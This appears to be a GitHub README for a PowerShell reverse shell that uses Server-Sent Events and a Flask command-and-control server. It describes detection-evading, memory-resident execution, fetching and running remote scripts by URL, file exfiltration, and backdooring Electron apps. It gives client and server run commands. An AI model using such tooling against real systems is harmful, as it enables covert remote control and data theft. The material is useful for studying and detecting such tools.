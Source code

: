 # SSE Reverse Shell – Enhanced Interactive Shell with Modern Features

This project showcases an advanced reverse shell built using native PowerShell and Server-Sent Events (SSE). It leverages a persistent HTTP connection to enable real-time communication between the server and clients, with a modern and interactive web-based interface for command execution and response visualization.

This project was inspired by Poc released by TNCX-byte => https://github.com/TNCX-byte/PS_SSE_Shell
So I wanted to test the implementaion of functionnalities in SSE. The project is in development and will change in futur. I think it will be implemented in my C2 Project RatShell...

Unlike traditional reverse shells, this implementation focuses on flexibility, interactivity, and stealth by using:
- Native PowerShell for the client
- SSE for real-time command streaming
- A web-based terminal for seamless interaction
- Memory-resident execution with minimal footprint

## Key Features

- **Interactive Web Terminal**: A modern, matrix-inspired web interface for sending commands and viewing responses in real-time.
- **Command Execution**: Supports both general commands and specific operations like file upload/download and script injection.
- **Real-Time Communication**: Uses SSE for persistent connections and HTTP POST for sending responses.
- **Chunked Response Handling**: Handles large command outputs by splitting them into manageable chunks for reliable transmission.
- **Cross-Platform Compatibility**: Works seamlessly with PowerShell clients on Windows and a Flask-based server on Linux.
- **Stealth and Flexibility**: Minimal network noise and memory-resident execution to bypass basic detection mechanisms.

## Components

### SSE Server
The server is built using Flask and provides the following endpoints:
- `/rsse`: Streams commands to connected clients via SSE.
- `/post`: Receives command outputs from clients.
- `/upload`: Handles file uploads from clients.
- `/download`: Allows clients to download files from the server.
- `/responses`: Streams client responses to the web-based terminal.

### SSE Client
The client is a PowerShell script that:
- Connects to the server's `/rsse` endpoint to receive commands.
- Executes commands locally and sends results back to the server via `/post`.
- Supports additional operations like file upload/download and script injection.

### Web Interface
The web-based terminal provides:
- A real-time command execution interface.
- Automatic scrolling and response handling for seamless interaction.
- For now it's just a Poc and is relased as-is... so you can expect bugs :)

## Usage

### Server
1. Start the Flask server:
   ```bash
   python3 SSE-Server.py
   ```

2. wait for incoming client connection from terminal and you can execute commands directly in it.

2 (optional). Access the web interface:
   - Open a browser and navigate to `http://<server-ip>:8085`.

### Client
1. Run the PowerShell client:
   ```powershell
   .\SSEClient.ps1 -Uri "http://<server-ip>:8085"
   ```

### Commands
- **General Commands**: Execute any PowerShell command (e.g., `dir`, `Get-Process`, `whoami`).
- **File Upload**: Upload a file from the client to the server:
  ```
  download <file-path>
  ```
- **File Download**: Download a file from the server to the client:
  ```
  upload <file-name>
  ```
- **Script Injection**: Inject and execute a script from a URL:
  ```
  inject <url>
  ```

## Features in Detail

### Real-Time Command Execution
- Commands are sent from the web terminal or server terminal to connected clients.
- Responses are streamed back in real-time and displayed in both the server terminal and the web interface.

### File Operations
- **Upload**: Clients can upload files to the server's `uploads` directory.
- **Download**: Clients can download files from the server's `Downloads` directory.

### Script Injection
- Execute remote scripts by providing a URL. The script is fetched, executed in memory, and the output is sent back to the server.

### Chunked Response Handling
- Large command outputs (e.g., `dir` or `Get-Process`) are split into chunks and sent to the server to ensure reliable transmission.

### Web Interface
- Real-time updates with automatic scrolling for seamless interaction.
- Displays both commands and responses in a structured format.

## Example Workflow

1. Start the server:
   ```bash
   python3 SSE-Server.py
   ```
2. Connect a client:
   ```powershell
   .\SSEClient.ps1 -Uri "http://<server-ip>:8085"
   ```
3. Open the web interface and send a command:
   - Example: `whoami`
4. View the response in real-time in the terminal.

This tool is released As-Is and you can expect bugs, it's just a Poc for now to test SSE protocols interaction & implementation. If it can be interesting for everyone, no problem. It will may be used for futur implemetations in other tools like my C2 I'm developping or other one...
You can find also 2 .js client in SSE_E-Client folder, thes 2 clients can be used to backdoor electron applications with another tool I'm developping right now I will release next few days ;). So stay connected to my github !!

## Disclaimer

This tool is for educational and research purposes only.  
Do not use this on networks or systems you do not own or have explicit permission to test.

## NoLicense

Author: 4rt3f4kt
